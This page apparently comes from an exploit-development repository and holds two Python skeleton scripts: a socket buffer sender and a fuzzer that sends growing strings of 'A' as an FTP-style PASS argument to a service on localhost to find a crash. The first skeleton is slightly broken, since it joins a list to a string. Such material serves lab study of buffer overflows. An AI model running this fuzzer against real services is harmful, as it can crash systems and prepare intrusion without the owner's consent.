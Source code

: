 ### Skeleton Version 1

```Python
#!/usr/bin/python 
import socket,sys

ip = '127.0.0.1'
port = 9999
buffer = []

try:
	print '[+] Sending buffer'
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((ip,port))
	s.recv(1024)			
	s.send(buffer + '\r\n')
except:
 	print '[!] Unable to connect to the application.'
 	sys.exit(0)
finally:
	s.close()
```

### Skeleton Version 2

```Python
    #!/usr/bin/python 
    import socket, time, sys

    ip = "127.0.0.1"
    port = 9999
    timeout = 5

    # Create an array of increasing length buffer strings.
    buffer = []
    counter = 100
    while len(buffer) < 30:
        buffer.append("A" * counter)
        counter += 100

    for string in buffer:
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(timeout)
            connect = s.connect((ip, port))
            s.recv(1024)
            s.send("USER username\r\n")
            s.recv(1024)

            print("Fuzzing PASS with %s bytes" % len(string))
            s.send("PASS " + string + "\r\n")
            s.recv(1024)
            s.send("QUIT\r\n")
            s.recv(1024)
            s.close()
        except:
            print("Could not connect to " + ip + ":" + str(port))
            sys.exit(0)
        time.sleep(1)
```
